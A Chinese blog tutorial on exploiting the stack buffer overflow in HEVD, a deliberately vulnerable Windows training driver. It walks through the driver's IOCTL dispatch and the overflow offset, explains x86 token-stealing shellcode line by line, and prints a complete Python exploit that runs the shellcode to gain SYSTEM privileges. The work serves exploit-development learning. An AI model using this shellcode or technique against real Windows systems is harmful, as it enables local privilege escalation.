


<small>转载请注明出处哦 :  )</small>

## 0x00 前言
这是HEVD漏洞利用学习的第一篇，所以本篇就尽可能地阐述得详细一些，包括从哪里开始入手，整个过程我们应该要做什么以及漏洞的分析利用。后续的HEVD篇章将侧重于对漏洞的分析及其利用。

既然是第一篇，我们就从最简单的栈溢出入手吧。

## 0x01 windbg preview 中无法显示 dbgprint 消息的问题
首先本节和HEVD漏洞利用学习没有关系，即使这个问题不解决也可以顺利地完成利用。本节只是写给和我一样有点儿强迫症的“患者”  : ) 


如图所示，DbgPrint 函数的执行结果无法被 windbg 接受到。

这时候你如果感觉奇怪并且想看到 DbgPrint 函数的输出结果的话你就会开始上网搜索类似于本节标题的内容。

然后，你可以看到很多的结果，但是几乎所有的答案都是告诉了你这两个方法
> 1. 键入 ed Kd_DEFAULT_MASK 8 (或是 0xf 或是 0xffffffff，这个不重要，只要 8 那一位为 1 就可以了)
> 2. 添加注册表键 `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Debug Print Filter` 的一个名叫 `DEFAULT` 的32位DWORD值为 8 (同理或是0xf 或是 0xffffffff)

当然这时候如果起作用的话自然是最好，如果不起作用的话可以试试以下解决办法。

> 首先在要调试的机器（这里是我的win7虚拟机）上以管理员权限运行 DebugView，然后勾选上 `Capture Kernel` 和 `Enable Verbose Kernel Output` 

> 之后使用 windbg 调试就可以看到 DbgPrint 输出的消息了

不过这是个什么原理我也搞不懂。

还有个问题就是从图中可以看到我敲完命令后一直出来一句 `DBGHELP: HEVD is not indexed`，虽然不影响分析但是有没有大哥知道这是什么意思以及怎么解决？

## 0x02 HEVD 栈溢出漏洞分析
首先看到我们下载的 HEVD 项目，我们可以看到有这么两个文件夹
> 1. HackSysExtremeVulnerableDriver/Driver/HEVD: HEVD.sys 驱动程序的 build 源码
> 2. HackSysExtremeVulnerableDriver/Exploit: HEVD 的漏洞利用代码

打开 /Driver/HEVD 文件夹下的 BufferOverflowStack.c 文件，这就是栈溢出漏洞的所在。阅读一下源码我们可以很容易地看到漏洞在 TriggerBufferOverflowStack 函数中

很显然地告诉了我们漏洞产生的原因是因为没有检查 UserBuffer 的大小直接将它复制给了 KernelBuffer。大家都知道一旦有栈溢出漏洞产生，我们就可以控制指令流了。HEVD 项目中用提权来验证这个漏洞，我们能做的当然不仅如此，不过这里我们也用提权来验证这个漏洞。

接下来分析一下驱动程序的执行流


可以看到从入口函数进来以后先到了 IrpDeviceIoCtlHandler 中然后才是到我们的漏洞函数，跟进 IrpDeviceIoCtlHandler 函数中看一下


看到红框中的汇编代码。[ebp + IoControlCode] 就是我们输入的 IO Control Code。大家稍作分析就能得出当我们的 IO Control Code 等于 0x222003 时，在最后一句 jmp 指令中 ecx 就等于 0。当最后一句 jmp 中 ecx 等于0 时就会跳转到 $LN5。而 $LN5 中的指令将跳转到函数 BufferOverflowStackIoctlHandler 中。（其中的标识符名称可能会不一样，但思路是一样的）

到目前为止我们就可以通过以下代码进入漏洞函数 TriggerBufferOverflowStack 了（HEVD 项目使用 c 来编写 exp，个人还是觉得用 python 来编写 exp 更方便一些）

```python
import ctypes, sys
from ctypes import *
 
kernel32 = windll.kernel32
# 0xC0000000 前四位为 1100,等同于GENERIC_READ | GENERIC_WRITE,即读写权限
# 0x3 为 0011,等同于FILE_ATTRIBUTE_READONLY | FILE_ATTRIBUTE_HIDDEN,即只读和隐藏属性
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)
 
if not hevDevice or hevDevice == -1:
    print "*** Couldn't get Device Driver handle."
    sys.exit(0)

buf = "A" * 2048
bufLength = len(buf)
 
kernel32.DeviceIoControl(hevDevice, 0x222003, buf, bufLength, None, 0, byref(c_ulong()), None)
```

相关函数若不了解就自行查阅相关文档吧。

到目前为止我们已经可以进入漏洞函数了，那么接下来就是如何利用漏洞函数的问题了，想想我们接下来需要哪些东西？
> 1. 如何触发漏洞
> 2. 一个可以执行的空间，里面包含着我们的 shellcode。在这里为提权代码
> 3. 使指令流指向我们的 shellcode

### 如何触发漏洞

从 IDA 中我们可以很容易地得出从 KernelBuffer 到 r 需要 0x828 + 0x4 的 byte。也就是说，如果我们输入的buf 是 0x82c + shellcode address 的话，那么执行完 TriggerBufferOverflowStack 就会跳转到我们的 shellcode 中了。

### 一个可以执行的空间，里面包含着我们的 shellcode
一个可以执行的空间我们可以通过 VirtualAlloc 函数来分配，然后把我们的 shellcode byte 流从进程的数据空间中拷贝到新分配的空间中就好了。

shellcode 我们可以使用 HackSysExtremeVulnerableDriver\Exploit\Payloads.c 中的代码。这里直接贴出 shellcode 并给出其含义。

```c
#include "stdafx.h"
#include <stdio.h>

#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID

int main()
{
	__asm {
		pushad; Save registers state

		; Start of Token Stealing Stub
		xor eax, eax; Set ZERO
		mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
		; _KTHREAD is located at FS : [0x124]

		mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

		mov ecx, eax; Copy current process _EPROCESS structure

		mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4

		SearchSystemPID:
			mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

		mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
		mov[ecx + TOKEN_OFFSET], edx; Replace target process nt!_EPROCESS.Token
		; with SYSTEM process nt!_EPROCESS.Token
		; End of Token Stealing Stub

		popad; Restore registers state

		; Kernel Recovery Stub
		xor eax, eax; Set NTSTATUS SUCCEESS
		add esp, 20; Fix the stack
		pop ebp; Restore saved EBP
		ret 8; Return cleanly

	}
}
```

> 首先插个题外话，明明我们的 exp 是用 python 编写的为什么这里的 shellcode 是 c ?

> 因为我们的 shellcode 最终是要转化为字节的形式的，然后我把汇编代码转化为字节的形式是使用 VS 的 debug 窗口来做到的

> 像这样一个 byte 一个 byte 地复制粘贴出来，个人感觉这种做法很低效，不知道师傅们有没有什么好用的方法呢?

shellcode 的代码不长，这里就解释一下整段代码。


首先看这一段。在内核模式下， fs寄存器指向 PCR(Processor Control Region)，其数据结构为 KPCR。我们可以在 windbg 中看到其具体结构



（下文的所有数据结构同理，我就不一一贴图了，比如KTHREAD的查看方法为 `dt _kthread`）

可以看到，在 fs:[0x124] 的位置存放的值是 CurrentThread，其数据结构为 KTHREAD


然后 KTHREAD.ApcState.Process 指向的是 KPREOCESS 结构，所以最后 eax 的值指向当前进程的 EPROCESS 结构（这里解释一下，KTHREAD.ApcState.Process 确实是指向 KPROCESS 没错，但是因为 KPROCESS 是 EPROCESS 结构体中的第一个成员，所以 KPROCESS 和 EPROCESS 的起始地址其实是一样的）


ActiveProcessLinks 是一个双链表节点，在 Windwos 中，所有的活动进程都连接在一起，构成一个双链表。当一个进程被创建时，其 ActiveProcessLinks 域将被作为节点加入到此链表中。而其中 Flink 是指向较早加入的进程的。

所以这段代码的大致意思就是不断地往前找，直到找到一个进程的 PID 为 4（SYSTEM 进程的 PID），取出它的 Token 值并将这个 Token 值复制给我们的进程。


最后这段代码是用来还原指令流的。（同时使被我们控制的esp 和 ebp 回到正常的值，置返回值为 STATUS_UNSUCCESSFUL）



看到这段汇编指令。本来 TriggerBufferOverflowStack 函数的 ret 是要回到 BufferOverflowStackIoctlHandler 中的 mov [ebp+Status], eax 的。但是被我们控制了 eip 到了我们的 shellcode。所以若我们想让指令回到正常，只需要在shellcode的最后做跟原来一样的操作，就能正常地返回到 IrpDeviceIoCtlHandler 中。

> 因此，我们应该

> 1. 使 eax 值等于 STATUS_UNSUCCESSFUL，也就是 0
> 2. add esp, 20。为什么这里我们不能 mov esp, ebp呢？因为这里的 ebp 被我们控制成 0x41414141 了。并不指向原来的 old ebp。那这里具体应该使 esp 加多少就要看原来正常的指令到了 call _TriggerBufferOverflowStack 时 ebp 和 esp 相差多少了。假设这时候 ebp 和 esp 相差 0x16，那么我们 add esp, x 中的 x 就等于 0x20（因为 call 指令会执行一条 push eip 使 esp 产生 4 的移动，并且 shellcode 全程并没有使 esp 产生移动）我们可以通过 windbg 来得到这个数值
> 3. 最后就是 pop ebp;ret 8

### 使指令流指向我们的 shellcode
这个很简单，只需要控制 eip 指向我们的 shellcode 的地址就好了

## 0x03 HEVD 栈溢出漏洞利用
根据以上的分析我觉得这里应该不用再解释了，这里直接给出 exp 并看一下它的运行结果

```python
#coding=utf-8

import ctypes, sys, struct
from ctypes import *
from subprocess import *
 
kernel32 = windll.kernel32
# 0xC0000000 前四位为 1100,等同于GENERIC_READ | GENERIC_WRITE,即读写权限
# 0x3 为 0011,等同于FILE_ATTRIBUTE_READONLY | FILE_ATTRIBUTE_HIDDEN,即只读和隐藏属性
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
    print "*** Couldn't get Device Driver handle."
    sys.exit(0)

shellcode = ""
shellcode += bytearray(
	"\x60"                                # pushad  
	"\x33\xC0"                            # xor         eax,eax  
	"\x64\x8B\x80\x24\x01\x00\x00"        # mov         eax,dword ptr fs:[eax+124h]  
	"\x8B\x40\x50"                        # mov         eax,dword ptr [eax+50h]  
	"\x8B\xC8"                            # mov         ecx,eax  
	"\xBA\x04\x00\x00\x00"                # mov         edx,4
	"\x8B\x80\xB8\x00\x00\x00"            # mov         eax,dword ptr [eax+0B8h]  
	"\x2D\xB8\x00\x00\x00"                # sub         eax,0B8h  
	"\x39\x90\xB4\x00\x00\x00"            # cmp         dword ptr [eax+0B4h],edx  
	"\x75\xED"                            # jne         SearchSystemPID  
	"\x8B\x90\xF8\x00\x00\x00"            # mov         edx,dword ptr [eax+0F8h]  
	"\x89\x91\xF8\x00\x00\x00"            # mov         dword ptr [ecx+0F8h],edx  
	"\x61"                                # popad  
	"\x33\xC0"                            # xor         eax,eax  
	"\x83\xC4\x14"                        # add         esp,14h  
	"\x5D"                                # pop         ebp  
	"\xC2\x08\x00"                        # ret         8
)

# 0x3000 等同于MEM_COMMIT | MEM_RESERVE, 即预留并提交该块内存
# 0x40 指示了分配的页面的保护属性,其值等同于PAGE_EXECUTE_READWRITE,即可读可写可执行 
ptr = kernel32.VirtualAlloc(c_int(0),c_int(len(shellcode)),c_int(0x3000),c_int(0x40))
buff = (c_char * len(shellcode)).from_buffer(shellcode)
# 把shellcode 复制到分配的内存中
kernel32.RtlMoveMemory(c_int(ptr),buff,c_int(len(shellcode)))
shellcode_final = struct.pack("<L",ptr)

buf = "A" * 2092 + shellcode_final
bufLength = len(buf)

kernel32.DeviceIoControl(hevDevice, 0x222003, buf, bufLength, None, 0, byref(c_ulong()), None)

Popen("start cmd", shell = True)
```

运行结果如图所示

## 0x04 结束语
从下一篇开始将会侧重于对漏洞进行分析利用。

---
<p align="right">2019.8.28</p>


